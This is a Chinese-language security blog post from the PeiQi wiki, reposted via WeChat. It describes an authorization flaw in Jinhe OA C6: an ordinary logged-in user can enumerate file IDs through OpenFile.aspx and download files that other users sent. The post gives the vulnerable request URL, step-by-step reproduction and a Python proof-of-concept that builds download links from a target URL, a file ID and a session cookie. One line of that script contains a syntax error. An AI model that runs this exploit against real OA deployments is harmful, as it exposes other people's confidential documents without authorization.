 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/90HM3LqODBN35iqRBRE1HA)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

**金和 OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件**

**二:  漏洞影响🐇**

**金和 OA C6**

**三:  漏洞复现🐋**

**登录后点击信息交流，发起协同页面**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE81lTSgMMVhy6ReN0Lyt8giaKYFxhvKUic2icCGEOkSmxKA1FPjwKDMQ0xg/640?wx_fmt=png)

**上传附件并上传发送给目标**

**这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE83DzIqZ6Wbd9gkT8LtOB3MCbMnibfianzgVZR8oCP2TPg5ThF315hcywQ/640?wx_fmt=png)

**成功收到上传的附件**  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8RCz7Vlyty8NMRsmZaPHiapoKTIl0UbREoauEW6OvIKvTnz6xCpXlGVA/640?wx_fmt=png)

**点击查看时抓包，发现一个带有文件 ID 的请求包**  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8GZyibbvH1ZcGksYutiaGrbr3ZDStCymUCXQkHlUxOXgJ4t4kPGahlmbw/640?wx_fmt=png)

**返回了几个参数**

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

**其中我们注意到 strFilePath 为文件的存储地址，我们更改 id 参数为另一个值，且测试后发现 name 文件名参数无关紧要**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8XZbeIibBXyKvpr0FQliaSyW0MiaNyJicnAPP7libC5hy7sJgmO89GERibItw/640?wx_fmt=png)

**更改 ID 后发送请求包发现获得另一个文件的信息**

**访问 Url，注意 **type 参数** 需要为正确的文件后缀才可以访问**

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE81gjFPdWwrZBqxVmksGJ2yB6DRwk35qZStjicuicUZp5DDFcsLxGR8tgQ/640?wx_fmt=png)

**这里更换一个普通用户测试是否可行，尝试遍历 id**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8MtWRKdbSB0euicFwsahVqVXOonjtNvmjY08E2UuRsJjgQe08DHQkBVA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8moxMia8nNAUHbwtialrfLiaOo5ZgkOrGpFskNQia50RV6YuqoUTHlPicBHw/640?wx_fmt=png)

**存在 **strFilePath 参数** 则是存在文件，为空则是文件已经不存在**

**同时抓包下载文件页面也可以看到可获取的参数** ****FileID 与 FileIDCode****

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8GETdfeqB4mlBYppx2kI48zFrpClGyPaozgUuJZ6XKqqdA9nAibzlQCg/640?wx_fmt=png)

**于是只需要通过刚刚的 ID 遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限**

 ****四:  漏洞 POC🦉****

```
POC只检测是否存在漏洞，且漏洞存在于后台需要登录
运行后访问链接即可下载文件
```

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&.format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号：{}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8dsvhF7kytMNZGyREG9Uia7R8BxlAUv7gFZCxicNJia3ZJAxRv4XCZoiaNg/640?wx_fmt=png)

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在交流群和公众号，想要投稿的师傅也可以加我投稿
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7YmG0oicA5Gib9brhhvwQOE8XYThWYX7FkzmperVYOAZHCgj1U2LkYZCIeu3b8wk0hGnziamefb5h2A/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZuCFdyVD9UlKcV0COuXd5oajiacmB5LB71gLdCaEhRaiaicMTS8oq55s9pA/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7iafXcY0OcGbVuXIcjiaBXZu0SvJFXqSugecfEnJujNOic73ouoGndJPRvezpAstLqLJDqe6JqJsf2Q/640?wx_fmt=png)